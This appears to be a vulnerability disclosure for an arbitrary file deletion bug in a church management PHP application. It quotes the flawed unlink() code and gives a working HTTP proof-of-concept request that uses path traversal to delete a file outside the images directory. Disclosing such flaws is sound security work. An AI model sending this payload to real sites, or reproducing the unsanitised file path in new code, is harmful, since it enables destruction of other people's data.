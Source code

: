 ### Vulnerability file address

In line 49 of `church/admin/app/partner_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo_img']);`,` $_POST['old_photo_img']` parameters have not been restricted, which causes any file to be deleted

```php
if (isset($_POST['update'])) {
		if (!empty($_FILES['photo']['tmp_name'])) {
			$file_extension = pathinfo($_FILES["photo"]["name"], PATHINFO_EXTENSION);
			$new_filename = uniqid() . '.' . $file_extension;
			$filepath = "../../assets/images/" . $new_filename;

			if (move_uploaded_file($_FILES["photo"]["tmp_name"], $filepath)) {
				$img1 = $new_filename;
				@unlink("../../assets/images/" . htmlspecialchars($_POST['old_photo_img']));
			}
		}
```

### POC

```http
POST /church/admin/app/partner_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 371

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo_img"

../../25.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `25.txt` file in the `church/` directory

![image-20250505171052052](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051710101.png)



Then we execute the above poc to attack

![image-20250505173414752](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051734786.png)



Files are deleted after the attack is successful

![image-20250505173448079](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051734121.png)